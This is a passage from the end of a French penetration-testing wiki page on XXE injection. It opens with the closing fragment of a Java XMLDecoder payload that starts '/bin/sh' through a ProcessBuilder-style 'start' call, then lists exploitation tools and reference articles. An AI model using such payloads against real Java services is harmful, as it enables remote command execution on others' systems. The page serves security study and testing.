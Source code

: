 ```xml
</void>
<void index="5">
<string>/bin/sh</string>
</void>
</array>
<void method="start" id="process">
</void>
</void>
</java>
```
## Outils

{{#ref}}
https://github.com/luisfontes19/xxexploiter
{{#endref}}

## Références

- [https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)\\
- [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)\\
- Extraire des informations via HTTP en utilisant son propre DTD externe : [https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/](https://ysx.me.uk/from-rss-to-xxe-feed-parsing-on-hootsuite/)\\
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection)\\
- [https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)\\
- [https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9](https://medium.com/@onehackman/exploiting-xml-external-entity-xxe-injections-b0e3eac388f9)\\
- [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)\\
- [https://gosecure.github.io/xxe-workshop/#7](https://gosecure.github.io/xxe-workshop/#7)

{{#include ../banners/hacktricks-training.md}}
